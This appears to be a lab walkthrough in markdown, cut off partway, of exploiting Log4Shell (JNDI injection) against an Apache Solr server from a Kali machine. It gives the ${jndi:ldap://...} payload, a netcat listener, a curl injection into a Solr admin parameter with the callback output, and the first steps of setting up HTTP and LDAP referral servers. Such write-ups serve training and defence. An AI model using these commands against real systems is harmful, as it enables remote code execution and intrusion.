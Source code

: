 # Using Log4j to attack a vulnerable Apache Solar server. [Java 1.8.0_181]


## To start, note that...

### Dashboard seen on admin front page

### Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well\


### Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

## Parameter will be used as an attack vector, with a payload having syntax as follows

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to get external resources, ATTACKERADDRESS will be a nc listener on the kali machine.

```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Anywhere data is logged, is vulnerable to the syntax --- we should have identified an entry point from the logs earlier (we are sure that it will log and be processed)
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this???

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need http server to host some files on our machine that contain the good stuff ;)
```python python3 -m http.server```

### Need the LDAP refferal server to redirect to the new HTTP server ***Java8 required: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html 

